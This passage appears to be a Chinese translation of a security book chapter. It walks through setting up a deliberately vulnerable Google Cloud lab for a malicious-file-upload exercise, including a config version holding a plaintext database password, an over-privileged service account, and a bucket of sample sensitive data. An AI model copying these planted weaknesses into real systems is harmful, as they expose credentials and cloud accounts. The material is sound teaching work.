







## 第 9 章. 利用 Google Cloud Storage 事件触发器进行恶意文件上传攻击

想象一下，你开发了一个无服务器视频分享应用，用户上传视频片段后会自动转码以实现在移动和桌面客户端上的最佳文件大小和播放质量。每次用户将视频片段上传到云存储存储桶时，预先配置的云存储事件就会触发一个无服务器计算资源，将视频转换为多种格式。发布几个月后，你发现攻击者利用了应用中的漏洞并获得了对上传视频、用户数据以及云账户中其他资源的访问权限。经仔细检查，你发现攻击者通过恶意文件上传利用了无服务器应用中的代码注入漏洞。这随后使攻击者能够入侵云账户内部的其他资源。

在本章中，你将设置一个有意设计为易受攻击的无服务器应用，以亲眼看到攻击者如何利用恶意文件上传作为起点，获取对机密数据以及云账户中其他资源的未经授权访问。你将进一步探索攻击者如何通过代码注入攻击利用事件驱动的文件处理工作流，该攻击升级为远程代码执行并最终导致反向 shell。到本章结束时，你将知道如何识别事件驱动文件处理应用中的漏洞和配置错误。这将帮助你认识到保护无服务器应用免受恶意文件上传攻击的相关最佳实践。

### 查看技术前提条件

为了跟随本章以及 第 10 章 的内容，你需要两个 Google Cloud 账户：一个用于设置和托管易受攻击的无服务器实验室环境（无服务器实验室账户），另一个用于运行模拟攻击（攻击者账户）。^(1)

在跟随本章时，请确保两个账户都已准备就绪并在单独的浏览器会话（或隐身/隐私窗口）中打开，以避免会话冲突。如果你尚未在 Google Cloud 账户中设置相应的计费账户，请在继续操作前确保配置好计费信息，以便实验室环境按预期工作。

#### Note

为了帮助你完成练习和模拟，本章使用的代码和命令的副本可在 [GitHub gist（见 `ch09.md`）](https://oreil.ly/0mSPU) 中获取。

### 准备易受攻击的 Google Cloud 实验室环境

在 第 2 章 中，你总览了事件驱动文件处理的工作原理，以及在实现此模式时需要牢记的一些关键注意事项。你了解到，如果在处理云存储事件的代码中未能验证输入，就会引入安全风险。本章中你将设置的易受攻击的实验室环境让你能够深入探索此模式，了解相关风险，并亲眼看到攻击者如何利用它们。

无服务器实验室环境包含一个输入存储桶，其事件触发器会自动调用一个易受攻击的 Cloud Run 服务，负责将上传的 HTML 文件转换为 PDF 文档。当用户将 HTML 文件上传到指定的输入存储桶时，Cloud Run 服务会从 Cloud Storage 存储桶下载该文件，执行 HTML 到 PDF 的转换，然后将生成的 PDF 存储在指定的输出存储桶中。Cloud Run 服务在权限过高的服务账户下运行，如果被入侵，可能会使攻击者获得对整个 Google Cloud 项目的所有者级访问权限。

图 9-1 所示的实验室设置分为两部分。第一部分包括两个 Cloud Storage 存储桶：用户可以上传 HTML 文件的指定输入存储桶，以及用户可以检索转换后 PDF 文件的指定输出存储桶。第二部分由用户和潜在攻击者无法直接访问的后端资源组成，例如具有权限过高服务账户的易受攻击 Cloud Run 服务、一个 Parameter Manager 参数，以及包含敏感客户相关信息的 Cloud Storage 存储桶。



为了帮助你深入了解此易受攻击设计的设置的技术细节，本节由以下几部分组成：

*   “设置 Google Cloud 项目”
*   “创建 Parameter Manager 参数”
*   “设置 Cloud Storage 存储桶”
*   “部署易受攻击的 Cloud Run 服务”
*   “完成易受攻击的事件驱动文件上传服务”
*   “验证端到端事件驱动处理”

通过了解事件驱动文件处理在此易受攻击的无服务器实验室中的实现方式，你将更能识别现实世界无服务器应用中的类似漏洞。

#### 设置 Google Cloud 项目

让我们开始设置和配置一个新的 Google Cloud 项目，该项目将包含易受攻击的实验室环境的所有资源。即使你账户中已有项目，为便于管理无服务器应用资源并在之后清理而不影响其他项目，最好创建一个新的专用项目。

在动手操作之前，让我们先定义本章相关的几个关键术语和概念：

##### Project ID


##### 项目标识符

项目的全局唯一标识符。

**项目编号**  
:  
系统生成的项目的唯一数字标识符。与项目 ID 不同，你无法自定义它。它主要由 Google Cloud 服务内部使用，以识别你的项目。

**项目名称**  
:  
项目的可读名称。

**结算账号**  
:  
决定谁为 Google Cloud 资源的使用付费。你可以将一个或多个项目链接到一个结算账号，所有这些项目中的资源使用都会相应计费。结算账号绑定到一个 Google 支付配置文件，该配置文件指定了费用的支付方式。

#### 注意

本节假设你正在使用你的 Serverless Lab 账号。随意重用你在 第 8 章 中设置的 Serverless Lab 账号。

牢记这些要点，让我们逐步进行设置和配置新项目的步骤：

1. 在浏览器标签页中前往 [Google Cloud 控制台](https://oreil.ly/1vxJH) 并使用你的 Google 账号登录，如果尚未登录。
2. 通过打开页面顶部的项目选择器并选择“New project”来创建一个新项目。指定项目名称并点击 Create 以初始化一个新项目。此项目将托管你在本章中设置和配置的无服务器实验室环境。

   ### Note
   创建新项目后，请确保它已在顶部导航栏中选中。如果尚未选中，请再次打开项目选择器并选择新创建的项目以继续。
3. 点击 Google Cloud 控制台右上角的 Activate Cloud Shell 按钮 (`> _`)。如果出现 Authorize Cloud Shell 窗口，请点击 Authorize 以授予必要的权限。^2
4. 在执行任何设置易受攻击的按设计实验室环境的命令之前，请确保你已通过身份验证。

   在 Cloud Shell 终端中（在 `$` 符号之后）运行以下命令以验证你的 Google Cloud 账号：

   ```
   gcloud auth login
   ```

   如果出现以下确认提示，输入 `y` 并按 Enter 继续。

   ```
   You are already authenticated with gcloud when running
   inside the Cloud Shell and so do not need to run this
   command. Do you wish to proceed anyway?
   
   Do you want to continue (Y/n)?
   ```

   点击“Go to the following link in your browser, and complete the sign-in prompts:”之后的链接并使用在 Google Cloud 中使用的同一 Google 账号登录。对于此步骤，请确保使用分配用于配置实验室的账号登录。

   当提示“You’re signing back in to Google Cloud SDK.”时，点击 Continue。

   当提示“Google Cloud SDK wants to access your Google Account”时，点击 Allow 以继续。

   在出现的页面（“Sign in to the gcloud CLI”）上，点击 Copy。

   切换回打开 Google Cloud 控制台的浏览器标签页，并在以下文本之后粘贴验证码：

   ```
   Once finished, enter the verification code provided in your browser:
   ```

   输入验证码后，你应收到以下确认消息：

   ```
   You are now logged in as [YOUR EMAIL ADDRESS].
   Your current project is [YOUR PROJECT NAME].
   You can change this setting by running:
     $ gcloud config set project PROJECT_ID
   ```
5. 通过运行以下命令安装 `jq`：

   ```
   sudo apt-get update && sudo apt-get install -y jq
   ```

   你将在设置无服务器实验室环境时使用 `jq` 处理 JSON 数据。
6. 让我们确保你已正确配置活动项目。

   列出所有项目并以 JSON 格式显示其详细信息：

   ```
   PROJECTS=$(gcloud projects list --format="value(projectId)")
   
   for PROJECT in $PROJECTS
   do
     gcloud projects describe "$PROJECT" --format="json" | \
     jq '{projectId: .projectId, name: .name, createTime: .createTime}'
   done
   ```

   这应返回项目列表，具体取决于云账号中存在的项目数量：

   ```
   ...
   {
     "projectId": "...",
     "name": "...",
     "createTime": "..."
   }
   ...
   ```

   找到你最近创建的项目并将其项目 ID 分配给变量：

   ```
   PROJECT_ID="[SPECIFY PROJECT ID OF NEW PROJECT]"
   ```

   ### Note
   使用前一步输出中显示的 `projectId` 值，将 `[SPECIFY PROJECT ID OF NEW PROJECT]` 替换为你刚刚创建的新项目的实际项目 ID。
7. 将你的活动 Google Cloud 项目设置为你指定的项目：

   ```
   gcloud config set project $PROJECT_ID
   ```

   验证当前活动的 Google Cloud 项目：

   ```
   gcloud config get-value project
   ```

   你应得到以下输出：

   ```
   Your active configuration is: [...]
   PROJECT_ID
   ```
8. 为此实验室设置启用所需的 Google Cloud 服务：

   ```
   gcloud services enable \
     run.googleapis.com \
     storage.googleapis.com \
     eventarc.googleapis.com \
     cloudbuild.googleapis.com \
     parametermanager.googleapis.com \
     cloudresourcemanager.googleapis.com \
     serviceusage.googleapis.com
   ```

   经过几秒钟后，你应收到以下确认消息：^3

   ```
   Operation "..." finished successfully.
   ```

此时，你的新项目已准备就绪，并已启用相关的 Google Cloud 服务。让我们继续下一节，在那里你将使用 Parameter Manager 服务创建参数并存储可通过编程方式检索的任意配置值。

#### 创建 Parameter Manager 参数

在本节中，你将创建一个 Parameter Manager 参数，用于存储可由无服务器和非无服务器应用程序通过编程方式检索和使用的任意配置值。你将创建该参数的两个版本，并在本节后面从命令行查询这些资源。虽然使用 Parameter Manager 时，团队可能会无意中将机密或凭据直接存储在这些配置值中，认为它们对攻击者是安全的。^4 正如本章后面将看到的，攻击者可能通过过于宽松的服务账号获得对这些参数的访问权限。

在我们深入本节的动手部分之前，让我们定义几个关键术语：

**参数**  
:  
Parameter Manager 中用于存储和管理应用程序在运行时所需配置值和其他数据的父对象。

**参数版本**  
:  
保存参数的实际值。有了参数版本，你可以随着时间的推移管理参数值的多个迭代，跟踪更改，并在需要时回滚到以前的值。

#### Note

本节假设你正在使用你的 Serverless Lab 账号，该账号托管易受攻击的按设计无服务器实验室环境。

让我们逐步了解创建新的 Parameter Manager 参数的过程：

1. 在顶部搜索栏中搜索 `parameter manager`。从搜索结果列表中选择 Parameter Manager。
2. 在 Parameter Manager 页面上，点击“Create parameter”。然后在 Name 字段中输入 `param-000`，并将“Parameter format”设置为 YAML（图 9-2）。

   

   对于“Location type”，选择 Multi-region，然后从下拉菜单中选择“global (Global)”。对于 Encryption，选择“Google-managed encryption key”。然后点击 Create 以保存并创建新参数。

   ### Note
   此时，参数已创建，但你仍需要创建参数版本来存储值。
3. 让我们创建第一个参数版本。在 Versions 选项卡上，点击“New version”按钮以导航到“Create parameter version”页面。


在“创建参数版本”页面，对于“版本名称”，输入 `1`。

在 Payload 部分，输入以下 YAML 配置（在“按 Option+F1 查看辅助功能选项”下方的文本区域中）：

```
app:
  name: my-service
  version: 1.0.0
  environment: production

database:
  host: db.example.com
  port: 5432
  username: admin
  password: password12345
  options:
    pool_size: 10
    timeout: 30

logging:
  level: info
  format: json
  destinations:
    - stdout
    - file:/var/log/my-service.log

features:
  authentication: true
  caching:
    enabled: true
    ttl_seconds: 3600
  rate_limiting:
    enabled: false
```

#### Caution

不建议将敏感凭据，例如数据库密码或 API 密钥，直接存储在 Parameter Manager 配置值中。^5

点击 Create 保存并创建参数版本。

4. 让我们创建第二个版本——这次不包含数据库凭据。

点击“New version”导航到“Create parameter version”页面。

对于“Version name”，输入 `2`。

在 Payload 部分，输入以下 YAML 配置：

```
app:
  name: my-service
  version: 1.0.0
  environment: production

database:
  host: db.example.com
  port: 5432
  options:
    pool_size: 10
    timeout: 30

logging:
  level: info
  format: json
  destinations:
    - stdout
    - file:/var/log/my-service.log

features:
  authentication: true
  caching:
    enabled: true
    ttl_seconds: 3600
  rate_limiting:
    enabled: false
```

点击 Create 保存并创建第二个参数版本。

5. 在 Cloud Shell 终端（`$` 符号之后），检索当前 Google Cloud 项目 ID：

```
PROJECT_ID=$(gcloud config get-value project)
```

列出所有 Parameter Manager 参数：

```
gcloud parametermanager parameters list \
  --project=$PROJECT_ID \
  --location=global
```

这会返回你在之前步骤中创建的参数（`param-000`）：

```
NAME: projects/.../locations/global/parameters/param-000
FORMAT: YAML
POLICY_MEMBER: {'iamPolicyUidPrincipal': '...'}
CREATE_TIME: 2025-00-00T00:00:00.000000000Z
UPDATE_TIME: 2025-00-00T00:00:00.000000000Z
```

检索 Parameter Manager 参数的名称并将其存储在 `PARAM_NAME` 变量中：

```
PARAM_NAME=$(gcloud parametermanager parameters list \
  --project=$PROJECT_ID \
  --location=global \
  --limit=1 \
  --format="value(name)")

echo $PARAM_NAME
```

这会返回你在本节中创建的参数名称，类似于以下内容：^6

```
projects/.../locations/global/parameters/param-000
```

列出指定 Parameter Manager 参数的所有版本：

```
gcloud parametermanager parameters versions list \
  --location=global \
  --parameter=$PARAM_NAME
```

这会返回你之前创建的参数的两个版本，包括版本标识符（`NAME`）、创建时间戳（`CREATE_TIME`）和最后更新时间戳（`UPDATE_TIME`）等详细信息：

```
NAME: projects/.../locations/global/parameters/param-000/versions/2
DISABLED:
CREATE_TIME: 2025-00-00T00:00:00.000000000Z
UPDATE_TIME: 2025-00-00T00:00:00.000000000Z

NAME: projects/.../locations/global/parameters/param-000/versions/1
DISABLED:
CREATE_TIME: 2025-00-00T00:00:00.000000000Z
UPDATE_TIME: 2025-00-00T00:00:00.000000000Z
```

检索并存储指定 Parameter Manager 参数的其中一个版本名称到变量中：

```
VERSION_NAME=$(gcloud parametermanager parameters versions list \
  --location=global \
  --parameter=$PARAM_NAME \
  --limit=1 \
  --format="value(name)")

echo $VERSION_NAME
```

这会返回你创建的参数版本名称，类似于以下内容：

```
projects/.../locations/global/parameters/param-000/versions/2
```

查看指定 Parameter Manager 参数版本的详细信息：

```
gcloud parametermanager parameters \
  versions describe $VERSION_NAME \
  --location=global
```

这会产生以下输出：

```
payload:
  data: YXBwOgogIG5hbWU6IG15LXNlcnZpY2UKICB2ZXJzaW9uOiAxLjAuMAogIGVudmlyb25tZW50OiBwcm9kdWN0aW9uCgpkYXRhYmFzZToKICBob3N0OiBkYi5leGFtcGxlLmNvbQogIHBvcnQ6IDU0MzIKICBvcHRpb25zOgogICAgcG9vbF9zaXplOiAxMAogICAgdGltZW91dDogMzAKCmxvZ2dpbmc6CiAgbGV2ZWw6IGluZm8KICBmb3JtYXQ6IGpzb24KICBkZXN0aW5hdGlvbnM6CiAgICAtIHN0ZG91dAogICAgLSBmaWxlOi92YXIvbG9nL215LXNlcnZpY2UubG9nCgpmZWF0dXJlczoKICBhdXRoZW50aWNhdGlvbjogdHJ1ZQogIGNhY2hpbmc6CiAgICBlbmFibGVkOiB0cnVlCiAgICB0dGxfc2Vjb25kczogMzYwMAogIHJhdGVfbGltaXRpbmc6CiAgICBlbmFibGVkOiBmYWxzZQ==
updateTime: '2025-00-00T00:00:00.000000000Z'
```

检索并解码指定参数版本的 data 负载：

```
PARAM_DATA=$(gcloud parametermanager parameters \
  versions describe $VERSION_NAME \
  --location=global \
  --format="value(payload.data)")

echo $PARAM_DATA | base64 -d
```

这会输出存储在参数中的原始 YAML 负载：

```
app:
  name: my-service
  version: 1.0.0
  environment: production

...
```

此时，你的无服务器实验环境中包含一个具有两个版本的 Parameter Manager 参数。在以下部分，你将继续完成实验环境的剩余部分，包括 Cloud Storage 存储桶和易受攻击的 Cloud Run 服务。让我们继续在下一节中设置 HTML 到 PDF 转换工作流所需的 Cloud Storage 存储桶。

#### Setting Up the Cloud Storage Buckets

在本节中，你将创建并配置三个 Cloud Storage 存储桶：一个用作上传 HTML 文件的输入存储桶，一个用作存储生成的 PDF 文档的输出存储桶，以及一个用于存储包含敏感信息的示例文件。

#### Note

本节假设你使用的是 Serverless Lab 账户，该账户托管易受攻击的按设计无服务器实验环境。

让我们开始设置这些存储桶：

1. 在 Cloud Shell 终端（`$` 符号之后），通过附加当前时间戳定义唯一的存储桶名称，并将其存储在变量中以便后续使用：

```
TIMESTAMP=$(date +%s)
INPUT_BUCKET="ss-input-bucket-$TIMESTAMP"
OUTPUT_BUCKET="ss-output-bucket-$TIMESTAMP"
ANOTHER_BUCKET="ss-another-bucket-$TIMESTAMP"
REGION="us-east1"
```

2. 将包含存储桶名称的变量保存到 shell 脚本文件中：

```
cat <<EOF > bucket-vars.sh
export INPUT_BUCKET="$INPUT_BUCKET"
export OUTPUT_BUCKET="$OUTPUT_BUCKET"
export ANOTHER_BUCKET="$ANOTHER_BUCKET"
EOF
```

#### Tip

如果开始新的 shell 会话或丢失当前 shell 状态，你可以通过运行 `source bucket-vars.sh` 重新加载环境变量。

3. 让我们创建并配置用于存储包含敏感数据的示例文件的存储桶。克隆 `misconfigured-cloud-storage-bucket` 仓库：

```
USERNAME=learning-serverless-security
REPO=misconfigured-cloud-storage-bucket

git clone https://github.com/$USERNAME/$REPO.git

cd misconfigured-cloud-storage-bucket
```

如果 `misconfigured-cloud-storage-bucket` 目录已存在，可以跳过此步骤并直接导航到该目录。

运行以下命令删除 `.git` 文件夹：

```
rm -rf .git
```

使用以下命令创建 Cloud Storage 存储桶：


```
PROJECT_ID=$(gcloud config get-value project)
BUCKET_NAME="$ANOTHER_BUCKET"

gsutil mb -p $PROJECT_ID -c STANDARD -l $REGION gs://$BUCKET_NAME/
```

验证你的存储桶是否已成功创建：

```
gsutil ls -b gs://$BUCKET_NAME/
```

如果你的存储桶存在，运行该命令将返回 `gs://your-bucket-name/`。否则，它将返回 `BucketNotFoundException` 以表示存储桶不存在。

#### Tip

如果存储桶尚未创建，请确保在继续之前先在此步骤中运行之前的 `gsutil mb` 命令。

使用以下命令将 `data.csv` 和 `cover-photo.png` 复制到你的存储桶中：

```
gsutil cp data.csv gs://$BUCKET_NAME/
gsutil cp cover-photo.png gs://$BUCKET_NAME/
```

这里，`data.csv` 文件用作包含示例敏感用户数据的占位符。

列出存储桶的内容以验证已上传的文件：

```
gsutil ls gs://$BUCKET_NAME/
```

这会产生以下日志输出：

```
gs://ss-another-bucket-.../cover-photo.png
gs://ss-another-bucket-.../data.csv
```

##### 4. 让我们创建并配置攻击者账户可以上传 HTML 文件的指定输入存储桶

检索并检查当前 Google Cloud 项目 ID：

```
cd ..

PROJECT_ID=$(gcloud config get-value project)
[[ -z "$PROJECT_ID" ]] && echo "Error: PROJECT_ID is not set."
```

如果运行这些命令后未收到错误，这意味着你的 `PROJECT_ID` 已在环境中正确配置。否则，在继续下一步之前，请运行 `gcloud auth login` 并通过 `gcloud config set project [PROJECT_ID]` 设置活动项目。

将环境变量 `INPUT_BUCKET`、`OUTPUT_BUCKET` 和 `ANOTHER_BUCKET` 加载到当前 shell 会话中：

```
source bucket-vars.sh
```

创建一个新的 Cloud Storage 存储桶：

```
BUCKET_NAME="$INPUT_BUCKET"

